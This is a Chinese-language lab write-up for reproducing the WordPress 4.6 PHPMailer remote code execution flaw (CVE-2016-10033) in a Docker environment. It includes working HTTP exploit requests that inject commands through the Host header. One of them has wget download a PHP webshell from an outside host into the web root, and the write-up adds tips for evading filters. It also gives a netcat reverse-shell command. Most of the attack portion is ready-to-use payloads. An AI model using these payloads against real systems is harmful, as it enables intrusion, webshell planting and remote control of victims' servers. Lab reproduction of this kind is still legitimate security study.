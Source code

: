 
##### 可能会有用的链接:

- [CVE-2016-10033](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10033)
- [WordPress PHPMailer 4.6 - Host Header Command Injection (Metasploit) ---- exploit-db](https://www.exploit-db.com/exploits/42024/)
- [WordPress 4.6 - Unauthenticated Remote Code Execution ---- exploit-db](https://www.exploit-db.com/exploits/41962/)
- [WordPress 4.6远程代码执行漏洞(CVE-2016-10033)复现环境搭建指南 ---- freebuf](http://www.freebuf.com/vuls/133860.html)
- [[更新WordPress 4.6漏洞利用PoC]PHPMailer曝远程代码执行高危漏洞 ---- freebuf](http://www.freebuf.com/news/123945.html)
- [快速搭建各种漏洞环境(Various vulnerability environment)--WordPress <= 4.6 命令执行漏洞----GitHub](https://github.com/Medicean/VulApps/tree/master/w/wordpress/6)
- [PHP mail函数参数的漏洞利用姿势 ---- 绿盟科技博客](http://blog.nsfocus.net/hack-php-mail-additional_parameters-3/)


#### 搭建环境

Ubuntu16.4搭建Docker环境 ---- [Docker — 从入门到实践](https://yeasy.gitbooks.io/docker_practice/content/install/ubuntu.html)
```bash
$ curl -fsSL get.docker.com -o get-docker.sh
$ sudo sh get-docker.sh --mirror Aliyun
```

拉取镜像到本地
```bash
docker pull medicean/vulapps:w_wordpress_6
```

映射docker镜像80端口到本地的8000端口
```bash
docker run -d -p 8000:80 medicean/vulapps:w_wordpress_6

7f6c5122e8b776795423d3c52656d60fca0e853c2e5eb70d9470522cc5db7c3e
```

访问 `http://192.168.48.130:8000` 看到 `WordPress` 主界面代表启动成功 (192.168.48.130为ubuntu ip)

#### POC

把下面的HTTP报文复制到 BurpSuite Repeater中，点击 `Go` 按钮,填写目标 IP 和 端口(IP填 192.168.48.130 端口填 8000)


```bash
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}vuln}} null)
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```
执行的命令为`/bin/touch /var/www/html/1.txt` ,返回302说明成功执行


![](images/1.jpg)


#### Exp

远程下载php一句话到web目录下
```
/usr/bin/wget --output-document /var/www/html/1.php mirrors.ichenfei.com/webshell/1.php
```

> 注意:

- 远程 URL 中不要有 http://
- 所有字母必须小写
- 所有 / 用 `${substr{0}{1}{$spool_directory}}` 代替
- 所有 空格 用 `${substr{10}{1}{$tod_log}}` 代替

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}1.php${substr{10}{1}{$tod_log}}mirrors.ichenfei.com${substr{0}{1}{$spool_directory}}webshell${substr{0}{1}{$spool_directory}}1.php}} null)
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:39.0) Gecko/20100101 Firefox/39.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.48.130:8000/wp-login.php?action=lostpassword
Cookie: wordpress_test_cookie=WP+Cookie+check
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

user_login=admin&redirect_to=&wp-submit=Get+New+Password
```
菜刀成功连接:

![菜刀连接1](images/3.jpg)
![菜刀连接2](images/4.jpg)

##### nc反弹bash shell

攻击机运行:
```
nc -vv -lp 520
```
靶机运行:
```
/bin/nc.traditional -e /bin/bash 192.168.48.144 520
```


#### Docker相关

查看docker进程

```
root@huang:~# docker ps
CONTAINER ID        IMAGE                            COMMAND             CREATED             STATUS              PORTS                           NAMES
7f6c5122e8b7        medicean/vulapps:w_wordpress_6   "/start.sh"         6 minutes ago       Up 6 minutes        443/tcp, 0.0.0.0:8000-> 80/tcp   serene_ptolemy

进入运行中的docker容器
```
root@huang:~# docker exec -it 7f6c5122e8b7 /bin/bash
root@7f6c5122e8b7:/# 
```



